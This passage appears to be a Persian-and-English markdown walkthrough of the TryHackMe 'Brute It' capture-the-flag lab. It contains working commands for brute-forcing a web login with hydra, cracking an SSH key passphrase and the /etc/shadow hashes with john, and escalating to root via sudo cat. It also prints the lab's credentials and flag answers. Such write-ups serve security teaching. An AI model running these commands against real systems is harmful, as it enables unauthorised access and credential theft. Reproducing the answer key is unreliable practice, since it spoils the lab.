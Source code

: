 		1. `john@bruteit~$ ls`
		2. `john@bruteit~$ cat user.txt` Copy flag value in the file
		3. Flag value => `THM{a_password_is_not_a_barrier}`
			1. ![[Pasted image 20240727222427.png]]
	4. در این مرحله هم توانستیم فلگ بعدی مرحله را درون `user.txt` در وب سرور تارگت بدست بیاوریم.
4. *TASK 3 Q & A*
	1. Whats is the user:password of admin panel? `admin:xavier`
	2. Crack `RSA Private Key`, Whats the Passphrase? `rockinroll`
	3. user.txt flag? `THM{a_password_is_not_a_barrier}`
	4. Web flag? `THM{brut3_f0rce_is_e4sy}`
		1. ![[Pasted image 20240727210105.png]]
	5. Image
		1. ![[Pasted image 20240727222533.png]]
-----
```sh
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.220.243 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=username or password is invalid" -V -I -t 4
----
nano key.txt
ssh2john key.txt > hash.txt
john hash.txt -w="/usr/share/wordlists/rockyou.txt"
john --show hash.txt
-----
cp key.txt key.pem
chmod 600 key.pm
ssh -i key.pem john@10.10.170.68
john@bruteit~$ ls
john@bruteit~$ cat user.txt
```
##### TASK 4 - Privilege Escalation
0. *Find a process using `root` Access*
	1. `sudo -l`
		1. ![[Pasted image 20240727223409.png]]
	2. تنها پروسه ای که با دسترسی *root* در حال اجراست کامند `cat` است. بنابراین در مرحله بعدی باید با رفتن به وبسایت https://gtfobins.github.io نحوه کامند `cat` که برای *Bypass* کردن به یوزر *root* مناسب است را پیدا کنیم.
1. *Find Suitable `cat` command for Escalation Privilege in* https://gtfobins.github.io
	1. Search for `cat` and click on it.
		1. ![[Pasted image 20240727223812.png]]
	2. نحوه ای از اجرای کامند cat هست که بوسیله آن مدل اگر بتوانیم محتویات فایلی را بخوانیم میتوانیم فرآیند Escalation Privilege را نیز انجام دهیم:
		1. ![[Pasted image 20240727223946.png]]
	3. البته در این مرحله نمیتوانیم از این روش استفاده کنیم و به همین خاطر به مرحله بعدی برای کرک فایل `/etc/passwd` , `/etc/shadow` میپردازیم.
2. *Cracking `/etc/passwd` and `/etc/shadow` files to get root password*
	4. *Copy Password files Contents* =>
		1. `sudo cat /etc/passwd` Copy all contents in this file
		2. `nano passwd` Paste Copied contents in this file.
			1. ![[Pasted image 20240727224147.png]]
		3. `sudo cat /etc/shadow` Copy all contents in this file
		4. `nano shadow` Paste Copied contents in this file.
	5. *Unshadow password files* =>
		1. `unshadow passwd shadow > pwd.txt`
			1. ![[Pasted image 20240727224524.png]]
	6. *Cracking Password files using `john`*
		1. `john pwd.txt -w="/usr/share/wordlists/rockyou.txt"`
			1. ![[Pasted image 20240727224955.png]]
		2. *Attack Result*: `Username:root Password:football`
			1. ![[Pasted image 20240727225042.png]]
	7. حال که پسورد یوزر root را بدست آوردیم میتوانیم به این اکانت سوئیچ کنیم.
3. *Switch to root account and get root flag*
	1. `su root` switch to root using `football` Password
		1. `ls`